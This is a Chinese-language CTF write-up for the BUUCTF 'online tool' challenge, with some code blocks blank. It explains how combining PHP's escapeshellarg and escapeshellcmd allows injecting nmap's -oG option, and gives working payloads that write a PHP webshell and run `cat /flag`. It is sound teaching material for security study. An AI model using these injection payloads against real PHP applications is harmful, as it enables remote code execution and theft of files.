









今天摸鱼半天，属实懒狗，只做出了一道buu上的online tool，记录一下
BUUCTF online tool writeup
首先题目很直接，给了源码
1 |
|
流程也很简单，给了一个system函数，最终目的应该就是rce了
实现RCE的思路就是nmap可以将记录导出为文件，而且文件的路径我们是知道的，所以就可以运行任意php代码，实现RCE，这里有一个小坑，在有的版本里下面的代码可以运行，而有的版本会出错
1 | # Nmap 7.70 scan initiated Thu Jul 25 16:14:15 2019 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oN shell.php <?php phpinfo();?> |
例如在7.3下会忽略第二个php标签，执行第一个<?php phpinfo();?>的内容

而在题目的5.6.40下，会因为第二个标签有语法错误而不输出第一个标签的内容，这里很玄学，不知道为什么

所以需要忽略中间的报错，可以用nmap的-oG参数，输出的结果如下，就可以正常运行了
1 | # Nmap 7.70 scan initiated Thu Jul 25 17:22:34 2019 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG shell.php <?php phpinfo();?> |
绕过的关键在于下面两行代码
1 | $host = escapeshellarg($host); |
还记得之前那篇里说过escapeshellarg是安全的，但是当这两个一起用的时候，就会造成危险了


我们可以看一下在经过这两步的操作后我们的输出变成了什么，测试代码如下
1 |
|

为什么会这样呢，通过上面的官方文档，我们可以知道，escapeshellarg会先对单引号转义，此时的结果应该是这样的
1 | \'-oG <?php phpinfo();?>\' |
然后对\分割的每个部分加上单引号，并连接，结果如下
1 | ''\''-oG phpinfo();'\''' |
之后，进行了escapeshellcmd，会对上边提到的字符进行转义，这里为什么没有对引号进行转义呢，因为实际上escapeshellcmd处理的配对，可能只是数量上的匹配，比如测试一下
1 |
|

所以最后经过两部分的处理，最终结果就是这个
1 | ''\\'' -oG \<\?php phpinfo\(\)\;\?\>'\\''' |
带入到命令行执行的结果就是

所以payload为?host=' <?php echo phpinfo();?> -oG mmm.php '

由于过滤了引号，直接用反引号执行系统命令读文件就完事了
最终读flag的payload?host=' <?php echo `cat /flag`;?> -oG mmm.php '

参考资料
https://paper.seebug.org/164/#0-tsina-1-56231-397232819ff9a47a7b7e80a40613cfe1